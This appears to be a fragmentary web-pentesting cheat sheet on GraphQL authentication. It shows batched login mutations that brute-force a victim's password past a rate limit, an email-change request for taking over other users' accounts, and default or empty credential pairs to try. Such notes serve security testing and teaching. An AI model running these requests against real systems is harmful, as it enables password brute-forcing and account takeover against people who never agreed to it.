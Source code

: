 Uses weak encryption keys

there is authenticate schema and it have authentication rate limit so you can only auth 3 times in row:

```bash
POST /graphql
{
"query":"mutation {
login (username:\"<username>\",password:\"<password>\") {
token
}
}"
}
```

try if you can send 50 user and pass per one request to bypass rate limit

 

```bash
POST /graphql
[
  {"query":"mutation{login(username:\"victim\",password:\"password\"){token}}"},
  {"query":"mutation{login(username:\"victim\",password:\"123456\"){token}}"},
  {"query":"mutation{login(username:\"victim\",password:\"qwerty\"){token}}"},
  ...
  {"query":"mutation{login(username:\"victim\",password:\"123\"){token}}"},
]
```

there is reset email function

```bash
PUT /account
Authorization: Bearer <token>
{ "email": "<new_email_address>" }
```

try to change other users emails.

1. Basic credentials

```
{
"login": "admin",
"password": "admin"
}

```

1. Empty credentials:

```
{
"login": "",
"password": ""
}

```
